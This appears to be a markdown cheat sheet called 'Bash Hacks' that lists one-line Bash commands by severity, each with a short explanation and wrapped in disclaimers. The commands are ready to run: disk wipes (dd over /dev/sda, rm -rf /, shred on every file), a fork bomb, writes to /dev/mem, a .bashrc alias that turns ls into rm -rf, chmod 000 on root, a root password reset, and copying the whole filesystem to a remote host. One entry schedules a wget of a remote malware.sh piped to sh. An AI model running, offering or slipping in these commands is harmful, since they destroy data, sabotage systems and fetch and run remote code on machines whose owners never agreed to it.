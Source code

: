# Bash Hacks

``` bash
DANGER, DONT-EVER-DO-IT !!!
```

![IMG](./../img/hazard-symbol.png)


## **Disclaimer**
*This document provides some examples on how Bash-scripting can be utilized in hacking contexts. The information is meant to enhance understanding and applications of Bash scripting and Linux/Unix System commands.*

### **Important**

**Ethical Use**: The reader is strongly advised to use this knowledge responsibly and ethically.

**Legal Compliance**: Never execute these commands in production environments.

**No Liability**: Any damage caused by the misuse or misunderstanding of the information provided is your own responsibility.

___


#### **1. Non-Destructive or Low-Impact Commands**
Commands that have minimal impact on the system.

- `cat /dev/urandom | hexdump -C | grep "ca fe"` - Searches for the hex pattern "ca fe" in random data.
- `while true; do head -n 100 /dev/urandom; sleep .1; done` - Continuously prints random data to the terminal.
- `cat /dev/sda | gzip -9 > sda.img.gz` - Creates a compressed image of the entire disk `/dev/sda`.
- `tar cf - / | ssh user@host "tar xf - -C /"` - Archives the entire filesystem and extracts it on a remote host.

---

#### **2. Annoyance or Minor Disruption**
Commands that disrupt or cause minor issues but are not destructive.

- `echo "You have been hacked!" | wall` - Sends a message to all users logged into the system.
- `echo "You have been hacked!" > /etc/motd` - Overwrites the message of the day (MOTD) with a custom message.
- `echo "You have been hacked!" | mail -s "Hacked" user@example.com` - Sends an email with the subject "Hacked" to the specified user.
- `while true; do echo "You have been hacked!"; done` - Continuously prints a message to the terminal.
- `echo "You have been hacked!" > /dev/tty1` - Sends a message to the first virtual console.
- `echo "You have been hacked!" > /dev/ttyS0` - Sends a message to the first serial port.
- `echo "You have been hacked!" > /dev/ttyUSB0` - Sends a message to the first USB serial device.
- `echo "You have been hacked!" > /dev/ttyAMA0` - Sends a message to the first AMBA serial device.
- `echo "You have been hacked!" > /dev/ttyO0` - Sends a message to the first OMAP serial device.
- `cat /dev/urandom | tee /dev/pts/* > /dev/null` - Sends random data to all open terminal sessions.

---

#### **3. File or System Manipulation**
Commands that modify files or system behavior but are not immediately destructive.

- `echo "echo 'You have been hacked!'" >> ~/.bashrc` - Appends a message to the user's `.bashrc` file, displaying it on every terminal login.
- `echo "alias ls='rm -rf'" >> ~/.bashrc` - Creates a malicious alias for `ls` that deletes files instead of listing them.
- `find / -name "*.txt" -exec rm -f {} \;` - Deletes all `.txt` files on the system.
- `chmod -R 000 /` - Recursively removes all permissions from all files and directories starting from root.
- `find / -type f -exec chmod 000 {} \;` - Recursively removes all permissions from all files on the system.
- `echo "root:password" | chpasswd` - Changes the root password to "password" (requires root privileges).

---

#### **4. Destructive Commands**
Commands that can cause significant damage to the system or data.

- `dd if=/dev/zero of=/dev/sda` - Overwrites the entire disk `/dev/sda` with zeros (destructive).
- `mkfs.ext4 /dev/sda1` - Formats the partition `/dev/sda1` with the ext4 filesystem (destructive).
- `dd if=/dev/sda of=/dev/sdb` - Clones the entire contents of `/dev/sda` to `/dev/sdb`.
- `while true; do dd if=/dev/zero of=/dev/sda bs=1M; done` - Continuously overwrites `/dev/sda` with zeros.
- `find / -type f -exec shred -u {} \;` - Securely deletes all files on the system by overwriting them with random data.
- `rm -rf /` - Recursively deletes all files starting from the root directory (extremely destructive).

---

#### **5. System Crashes or Denial of Service**
Commands that can crash the system or cause it to become unresponsive.

- `:(){ :|:& };:` - Fork bomb: creates a function that calls itself recursively, spawning processes until the system crashes.
- `while true; do killall -9 bash; done` - Continuously kills all `bash` processes on the system.
- `cat /dev/urandom > /dev/fb0` - Fills the framebuffer with random data, potentially crashing the graphical display.
- `cat /dev/zero > /dev/mem` - Attempts to overwrite system memory with zeros, likely crashing the system.
- `echo 1 > /proc/sys/kernel/sysrq; echo b > /proc/sysrq-trigger` - Triggers an immediate system reboot using the Magic SysRq key.

---

#### **6. Remote Exploitation or Malware**
Commands that involve remote exploitation or downloading/executing malicious scripts.

- `echo "wget http://example.com/malware.sh -O- | sh" | at now + 1 minute` - Schedules a command to download and execute a script in one minute.

``` bash
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
L       III  N   N  U   U  X   X      H   H   AAAAA  CCCC  K   K  SSSS
L        I   NN  N  U   U   X X       H   H  A     A C      K  K  S
L        I   N N N  U   U    X        HHHHH  AAAAAAA C      KKK   SSS
L        I   N  NN  U   U   X X       H   H  A     A C      K  K     S
LLLLL   III  N   N   UUU   X   X      H   H  A     A  CCCC  K   K  SSSS
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
DONT-EVER-DO-IT !!!
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
```
